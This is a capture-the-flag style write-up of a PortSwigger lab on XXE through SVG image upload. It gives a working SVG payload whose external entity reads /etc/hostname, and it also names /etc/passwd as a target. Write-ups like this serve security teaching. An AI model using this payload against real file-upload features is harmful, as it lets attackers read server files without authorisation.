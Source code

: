## Lab Description: Exploiting XXE via image file upload

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/90766f3a-5323-4510-948f-f010c5145e05)


## Solution: 



The image upload functionality is vulnerable to XXE attack.

Since SVG image formats are XML based, we can try to upload an SVG image & modify the content of the xml to retreive /etc/passwd.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/749c9192-b4ec-4fa4-95b7-76e025460b84)

Post a comment on a blog post, capture the req.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d1dd42f8-626b-44e9-b543-96ba9e54fc70)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/de4458ec-5165-431d-9f19-8bd202d84355)

In the above request remove all the tag contents and replace it with this payload.

```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/aecb28b9-aae6-4b67-acef-0e994fc4a608)

Send the req-

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/6da03fe5-8182-4848-bc93-6e31bf7aef42)

Click on the image & open it in new tab to view the o/p of /etc/hostname command

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4c3671aa-b756-4ca4-b45a-a90876ccb51a)

Submit this code in solution

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/3000ed71-a686-4bf2-a41e-faf2e8e58323)


